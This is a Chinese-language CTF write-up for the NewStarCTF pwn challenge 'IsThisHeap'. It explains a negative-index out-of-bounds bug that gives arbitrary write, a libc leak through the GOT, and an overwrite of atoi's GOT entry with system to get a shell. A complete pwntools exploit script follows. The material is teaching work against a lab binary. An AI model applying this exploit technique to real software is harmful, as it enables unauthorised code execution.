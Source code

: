 ```yaml
---
title: IsThisHeap
date: 2023-01-02 19:54:26
categories: 
- pwn_wp
tags: 
- pwn
- index overflow
- heap
- got overwrite

---
```


NewStarCTF，数组下标越界的堆题，改写got表
<!-- more -->

查壳，64位开了canary和NX

```sh
[*] '/home/alphonse/CTF_GAME/new_star/IsThisHeap/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

有个菜单，有add、delete、edit、show、exit五个功能，但实际上delete没有实现。

在add中最多可以同时存在16个chunk，malloc长度固定为0x30，写入内容的时候可以多写一个'\x00'。

在edit中有下标越界漏洞，没有检查idx是否<0，会从heaps+idx*0x8的位置取出一个指针，并向指针指向的位置写入0x30字节的内容。heaps在0x6020e0，而在0x602080处有一个you_found_me指向自己，可以**修改you_found_me获得一个任意写**，偏移为-12。

在show中依旧没有对下标<0进行检查，仍然有下标越界，会从heaps+idx*0x8的位置取出一个指针，并输出其指向的内容。

也就是说，这题主要是利用edit中下标越界导致的任意写来get shell，这题没开RELRO，说不定可以改个GOT表，有atoi函数，把他改成system，然后输入"/bin/sh"就可以get shell了。

在这之前要看看有没有system，没有的话考虑利用show的下标越界来leak libc。

果然没有system，先看看heaps前面有什么。0x602000~0x602068是.got.plt，应该可以通过leak里面的内容来得到libcbase，atoi的位置是0x602058。

直接将you_found_me修改为0x602058，然后show可以得到libcbase，但在这之后程序就走不动了，可能是因为**写入的时候会在最后追加一个\x00导致__isoc99_scanf错误**。

那不写入8字节，**写入7个字节，反正高位是'\x00'**，把atoi的.got.plt修改为system的地址，然后在atoi函数处输入"/bin/sh\x00"即可get shell。

exp:

```python
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
filename='pwn2'
elf=ELF('./'+filename)
libc=ELF('libc-2.31.so')
p=process('./'+filename)
#p=remote('',)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,'\x00'))
leak    = lambda name,addr          :log.success('{} = {}'.format(name, addr))

def debug(cmd='\n'):
  gdb.attach(p,cmd)
  pause()

def edit(idx,content):
  ru('>> ')
  sl('3')
  ru("Index:")
  sl(str(idx))
  ru("Content:")
  s(str(content))

def show(idx):
  ru('>> ')
  sl('4')
  ru("Index:")
  sl(str(idx))

atoi_got=0x602058

#leak libcbase
payload=p64(atoi_got)
edit(-12,payload[:-1])

show(-12)
offset=0x445b0
libcbase=uu64(ru('\x7f'))-offset
leak("libcbase",hex(libcbase))

#get shell
sys_addr=libcbase+libc.sym['system']
leak("system",hex(sys_addr))

payload=p64(sys_addr)
debug('b *0x400b29')
edit(-12,payload[:-1])

ru('>> ')
sl('4')
ru("Index:")
s("/bin/sh\x00")

itr()
```

